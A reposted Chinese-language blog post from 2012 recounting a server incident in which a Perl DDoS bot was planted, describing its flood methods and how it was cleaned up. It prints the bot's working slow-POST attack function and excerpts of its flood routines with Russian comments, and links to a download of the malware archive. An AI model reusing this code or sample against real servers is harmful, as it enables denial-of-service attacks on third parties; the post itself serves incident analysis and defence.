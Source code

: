 ```yaml
---
date: '2012-04-22 16:04'
layout: post
slug: zt-an-experience-of-server-anti-ddos
title: "[ZT]记一次运维，一个 Linux 木马"
description: ""
category: 
tags: [ddos, server]
---
```

{% include JB/setup %}

http://www.lovelucy.info/an-experience-of-server-anti-ddos.html<br>
2012-04-22 16:04	| 25 次围观<br>
<font color="navy">嘛，新平台上的第一篇新帖子……</font>

* * *

上个月数据中心的多台服务器接连被人挂马，又有客户的网站被 DDOS，公司的运维整个都处于一种被打了鸡血的亢奋状态，连我手上的项目都被部门老大停了，调去帮运维。第一次见到 Linux 下面的木马，突然想起来，还是值得记录一下。

分析日志发现 Attacker 应该是通过某种途径获得了客户的后台密码，然后利用控制面板的漏洞，上传了压缩包里的 `falabiya.cgi` 并运行。这样会生成 `.X11-unix` 文件（其实就是 falabiya 那一段 `base64_decode`）， `.X11-unix`即具体的后门程序。

信安专业的 Felix021 和芒果师兄都对这个案例表示出了兴趣，于是我分别和他们分析了一下。这是一段 perl 脚本，写得十分精妙。具体功能就是拿我们的服务器做肉鸡，监听端口获取指令，向指定地址发送数据，从而实行 DDOS 攻击。代码内置了几乎所有浏览器的 UA 字符串，每次都随机抽取其中一个，伪装为正常访问。genGarbage、tcp flood、udp flood、slow get/post 等各种 DDOS 方式均有实现，特别是 sendSlowPostRequest 这个方法，实在太贱了，一点点地发，对方必须 hold 住资源等你发完。。短短数百行代码，却对各种错误异常处理得十分仔细，必然出自高人之手。注释里有些不能识别的字符，也不知道是什么编码，无法推断是哪个国家的黑客写的。。

<font color="navy">
Galaxy看到注释中有<code>#id3|slowpost|ya3.ru|3128|/index.html</code>，就猜到是俄语。到EditPlus中翻了半天，找到<code>Ukrainian (MAC) 10017</code>，解出来一看，果然是。<br>
话说，俄语的学名是“乌克兰语” <font style="font-family: Arial Unicode MS, Lucida Sans Unicode;">[ukrɑˈjɪɲsʲkɑ ˈmɔwɑ] </font>么？
</font>

{% highlight perl %}
	sub sendSlowPostRequest {
		my $host = $_[0];
		my $port = $_[1];
		my $path = $_[2];	
		my $contentLen = $_[3];	
		my $chars = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()_+|\=-~`1234567890";
		
		print "start\n";
		
		socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
		$iaddr = inet_aton($host);
		$paddr = sockaddr_in($port, $iaddr);
		connect(SOCK, $paddr);
		
		#send header
		send (SOCK, "POST ".$path." HTTP/1.1\r\n", 0);	
		send (SOCK, "Host: $host\r\n", 0);	
		send (SOCK, "User-Agent: $ua\r\n", 0);	
		send (SOCK, "Content-type: application/x-www-form-urlencoded\r\n", 0);	
		send (SOCK, "Content-length: $contentLen\r\n", 0);	
		send (SOCK, "\r\n", 0);	
		
		#send body
		for my $i (1..$contentLen){
			my $symbol = substr $chars, int rand length($chars), 1;
			print "$symbol ";
			send (SOCK, $symbol, 0);
			sleep 3;
		}
		send (SOCK, "\r\n", 0);
		close(SOCK);
		print "end\n";
	}
{% endhighlight %}

后来我们清理掉了所有木马，限制脚本运行，配置防火墙阻止向外发送异常数据。至于我们自己被 DDOS 攻击，也是配防火墙搞定，那几台设备好几百万，还是相当给力的。因为来自中国的攻击很多，Boss 一直对内地黑客十分“敬仰”，要我介绍几个给他认识。。其实我是了解国内那些所谓的“黑客”的，不得已只好把也是武大信安毕业后来去中科院的 LC 拉来……后来 Boss 还跑去北京找绿盟谈过合作，据说他家要上市了。

代码请[猛戳这里](/assets/wp-uploads/2012/peach.20120228.zip "http://host-for-download.googlecode.com/files/peach.20120228.zip")下载。有任何研究发现，欢迎分享。

* * *

<font color="navy">Galaxy随手喂Google翻译了几句：</font>

{% highlight perl %}
	#хттп √≈“ атака (парамерты : хост, порт, путь до скрипта, врем¤ ожидани¤ между запросами)
	# Http √ ≈ "attack (paramerty: host, port, path to the script, the time ¤ ¤ timeout between requests)
	sub sendGetRequest {
		my $host = $_[0];
		my $port = $_[1];
		my $path = $_[2];	

	#хост, порт, путь до скрипта, врем¤ ожидани¤ между запросами, текстовый буффер дл¤ отсылки в теле ѕќ—“а
	# Host, port, path to the script, the time ¤ ¤ timeout between requests, the text buffer dl ¤ ѕќ references in the body, "a
	sub sendPostRequest {	
		my $host = $_[0];
		my $port = $_[1];
		my $path = $_[2];	
		my $content = $_[3];	

	# HTTP GET (парамерты : хост, порт, путь до скрипта, врем¤ ожидани¤ между запросами)
	# HTTP GET (paramerty: host, port, path to the script, the time ¤ ¤ timeout between requests)
	sub attackHttpGet {		
		$child = fork;
		if ($child == 0){								
			my $host = $_[0];
			my $port = $_[1];
			my $path = $_[2];
			my $sleep = $_[3];
			my $duration = $_[4];

	# ѕќ—“ атака (парамерты : хост, порт, путь до скрипта, врем¤ ожидани¤ между запросами, текстовый буффер дл¤ отсылки в теле ѕќ—“а)
	# Ѕќ-"attack (paramerty: host, port, path to the script, the time ¤ ¤ timeout between requests, the text buffer dl ¤ ѕќ references in the body-" a)
	sub attackHttpPost {	
		$child = fork;
		if ($child == 0){								
			my $host = $_[0];
			my $port = $_[1];
			my $path = $_[2];
			my $sleep = $_[3];
			my $content = $_[4];
			my $duration = $_[5];

	# TROLL атака (парамерты : хост, порт, кол-во коннектов на 1 поток, слип). если порт 0, то порт рандом. 
	# TROLL attack (paramerty: host, port, number of connections in a thread, slip). if the port is 0, the random port.
	sub attackTroll {	
		$child = fork;
		if ($child == 0){
			my $host = $_[0];
			my $port = $_[1];
			my $connects = $_[2];
			my $sleep = $_[3];
			my $duration = $_[4];

	# TCP атака. тоже что и тролл, но с посылкой мусора в порт после коннекта. доп.параметр : максимальный размер мусорного реквеста.
	# TCP attack. Same as trolley buses, but with sending debris into port after connect. dop.parametr: the maximum size of a garbage rekvesta.
	sub attackTcpTroll {	
		$child = fork;
		if ($child == 0){			
			my $host = $_[0];
			my $port = $_[1];
			my $connects = $_[2];
			my $maxLen = $_[3];
			my $duration = $_[4];				

	# HTTP from IRC (парамерты : хост, длительность)
	# HTTP from IRC (paramerty: host, duration)
	sub attackHttpFlood {		
		$child = fork;
		if ($child == 0){	
			my $host = $_[0];
			my $duration = $_[1];	
{% endhighlight %}
